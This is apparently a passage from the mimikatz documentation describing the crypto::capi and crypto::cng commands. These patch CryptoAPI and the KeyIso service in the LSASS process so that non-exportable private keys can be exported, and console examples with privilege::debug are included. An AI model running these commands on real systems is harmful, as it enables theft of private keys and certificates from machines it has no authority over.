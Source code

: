 This is only useful when the keys provider is one of:
* ``Microsoft Base Cryptographic Provider v1.0``
* ``Microsoft Enhanced Cryptographic Provider v1.0``
* ``Microsoft Enhanced RSA and AES Cryptographic Provider``
* ``Microsoft RSA SChannel Cryptographic Provider``
* ``Microsoft Strong Cryptographic Provider``

_can be used with [`crypto::certificates`](#certificates) and [`crypto::keys`](#keys)_
```
mimikatz # crypto::capi
Local CryptoAPI patched
```

## cng
This patch modify ``KeyIso`` service, in ``LSASS`` process, in order to make unexportable keys, exportable

This is only useful when the keys provider is ``Microsoft Software Key Storage Provider`` (you do **not** need to patch ``CNG`` for other providers).

_can be used with [`crypto::certificates`](#certificates) and [`crypto::keys`](#keys)_
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::cng
"KeyIso" service patched
```